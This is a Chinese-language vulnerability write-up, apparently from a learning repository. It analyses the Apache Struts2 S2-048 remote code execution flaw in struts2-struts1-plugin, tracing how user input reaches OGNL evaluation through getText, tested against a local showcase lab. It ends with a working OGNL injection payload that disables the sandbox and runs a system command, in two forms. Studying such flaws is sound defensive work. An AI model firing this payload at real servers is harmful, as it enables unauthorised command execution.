   ### S2-048
  
  ![s2-048-result](../imgs/s2-048-result.png)
  
  攻击者可以构造恶意的字段值通过 Struts2 的 `struts2-struts1-plugin` 的插件，远程执行代码。  
  http://localhost:9048/showcase

* 漏洞分析 
   
  本质上是在 `struts2-struts1-plugin` 这个 jar 包上。这个库是用将 [struts1 的 action](../MyLearning.md#struts1-action) 封装成 [struts2 的 action](../MyLearning.md#struts2-action) 以便在 struts2 上使用。本质原因还是在 `struts2-struts1-plugin` 包中 `Struts1Action.java` 中 `execute函数` 调用了 `getText函数`，这个函数会执行 ognl 表达式，并且 `getText` 的输入内容是攻击者可控的。以下分析基于 struts2 的官方示例 struts2-showcase war 包。首先 `Struts1Action` 的 `execute` 方法代码如下。从红框中信息可以看出其实质是调用 `SaveGangsterAction.execute` 方法，然后再调用 `getText(msg.getKey()….)`。  

  进入 [`Struts1Action.java`](./Struts1Action.java)：  
  
  ![s2-048-01](http://xxlegend.com/images/048-1.png)  

  `SaveGangsterAction.java` 的 `execute` 方法的实现：  

  ![s2-048-02](http://xxlegend.com/images/048-2.png)  

  其中 `gform.getName()` 的值是从客户端获取的，传入有毒参数 `${1+1}`，放到了 messages (request) 中。  

  接着返回 `Struts1Action` 的 execute 方法中，创建了 [`ActionMessages`](./ActionMessages.java) 实例，获取 request 中的 message。进入循环后，如果数组长度不为0，进入 `if`；如果长度为0，进入 `else`。[`ActionMessage`](./ActionMessage.java) 类中包含了 `key` 和 `Values`。最终执行的是 `else` 里的语句，读取的内容 `Gangster ${1+1} added successfully` 作为 key 存入。

  ![s2-048-04](http://xxlegend.com/images/048-4.png)  

  进入 getText 的实现函数，栈图:  

  ![s2-048-05](http://xxlegend.com/images/048-5.png)  

  [`ActionSupport`](./ActionSupport.java) 的 getText() 方法：  
  
  ![s2-048-06](http://xxlegend.com/images/048-6.png)  
  
  接着进入 [`TextProviderSuppport.getText()`](./TextProviderSupport.java)，接着调用其另一个重载类方法 getText()：  

  ![s2-048-07](http://xxlegend.com/images/048-7.png)  

  进入 [`LocalizeTextUtil.findText()`](./LocalizedTextUtil.java)：  

  ![s2-048-08](http://xxlegend.com/images/048-8.png)  

  是 ognl 表达式的入口，得到一个 valueStack，最后调用了另一个重载类方法 findText()：  

  ![s2-048-09](../imgs/s2-048-09.png)


* payload  
  
  ![s2-048-payload](../imgs/s2-048-payload.png)
  
  将如下POC填入表单 `Gengster Name` 中，提交即可直接回显命令执行的结果：
  ```
  %{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
  ```

  ```java
  // 链式表达式
  (dm = ognl.OgnlContext.DEFAULT_MEMBER_ACCESS).(_memberAccess ? (_memberAccess = dm):((container = context['com.opensymphony.xwork2.ActionContext.container']).(ognlUtil = container.getInstance(com.opensymphony.xwork2.ognl.OgnlUtil.class)).(ognlUtil.getExcludedPackageNames().clear()).(ognlUtil.getExcludedClasses().clear()).(context.setMemberAccess(dm)))).(q = org.apache.commons.io.IOUtils.toString(java.lang.Runtime.getRuntime().exec('id').getInputStream())).(q)
  ```